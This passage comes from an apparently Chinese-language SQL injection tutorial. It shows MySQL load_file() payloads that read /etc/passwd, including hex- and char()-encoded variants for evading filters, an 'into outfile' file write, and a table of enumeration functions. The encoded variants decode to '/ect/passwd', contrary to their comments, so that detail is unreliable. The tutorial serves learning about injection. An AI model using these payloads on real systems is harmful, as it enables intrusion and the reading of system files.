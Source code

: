 Oracle:语句错误,数据类型不匹配,无法正常执行

所以最好将1,2,3换成NULL,NULL,NULL来测试



4.利用函数

可以使用load_file()来获得系统的文件内容

例如

```sql
select load_file("/etc/passwd");
select load_file(0x2F6563742F706173737764)#为/etc/passwd的十六进制
select load_file(char(47,101,99,116,47,112,97,115,115,119,100))#为上面的ASCII
select hex(load_file(char(47,101,99,116,47,112,97,115,115,119,100)))#可以使用hex将函数转化为十六进制
```

这些操作需要mysql对应的用户具有足够的权限



into outfile写入文件

例如

> select 111 into outfile "文件路径"

| 函数                 | 效果                                       |
| -------------------- | ------------------------------------------ |
| length()             | 返回字符串长度                             |
| substring()          | 截断字符串                                 |
| ascii()              | 返回ASCII码                                |
| hex()                | 转化为16进制                               |
| now()                | 返回当前时间                               |
| unhex()              | 反hex                                      |
| floor()              | 返回不大于x打正整数                        |
| md5()                | 使用md5加密                                |
| group_concat()       | 返回一个来自组的链接的非NULL值的字符串结果 |
| @@datadir            | 获取数据库路径                             |
| @@basedir            | 获取mysql安装路径                          |
| @@version_compile_os | 系统版本                                   |
| user()               | 用户名                                     |
| current_user()       | 当前用户名                                 |
| system_user()        | 系统用户名                                 |
| database()           | 数据库名称                                 |
| version()            | 数据库版本                                 |
